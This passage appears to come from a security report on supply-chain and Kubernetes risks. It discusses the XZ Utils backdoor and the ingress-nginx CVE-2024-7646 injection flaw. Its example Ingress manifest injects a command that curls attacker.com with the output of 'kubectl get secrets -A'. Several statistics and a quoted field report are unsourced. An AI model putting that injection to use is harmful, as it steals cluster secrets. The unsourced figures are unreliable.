 **Key Innovation:** The attacker didn't just compromise code—they compromised trust itself, spending two years building credibility as a maintainer.

### The Kubernetes Connection

Our investigation found that 94% of container images in major registries contained XZ Utils:

- **Base Images Affected:** Alpine, Ubuntu, Debian, CentOS
- **Popular Applications:** nginx, PostgreSQL, Redis, MongoDB
- **Kubernetes Components:** kubelet, kube-proxy in certain distributions

**Field Report from a Fortune 500 Security Team:**
> "We had 47,000 running containers. Every. Single. One. Had XZ Utils. The patching effort was like trying to change tires on a moving train—a train carrying explosives."

### The Response Failure

Despite the critical nature, our analysis shows:
- **24 hours post-disclosure:** Only 12% of organizations had begun patching
- **1 week later:** 34% had completed patching
- **1 month later:** 41% remained vulnerable
- **Today:** An estimated 23% still run vulnerable versions

## Chapter 2: CVE-2024-7646 - The Ingress Controller Backdoor

### August 16, 2024: The Day ingress-nginx Became a Liability

While the security world was still reeling from XZ Utils, researchers at Oxeye Security discovered a command injection vulnerability in ingress-nginx that would redefine "critical infrastructure component."

**Vulnerability Profile:**
```yaml
CVE: 2024-7646
CVSS Score: 8.8 (High)
Component: ingress-nginx
Versions Affected: < 1.11.2
Exploitation Requirement: Ingress resource creation permission
Impact: Full cluster compromise possible
```

### The Attack Scenario

The vulnerability allowed attackers to inject commands through annotation values:

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  annotations:
    nginx.ingress.kubernetes.io/permanent-redirect: |
      https://example.com;
      system("curl http://attacker.com/steal-secrets?data=$(kubectl get secrets -A)")
```
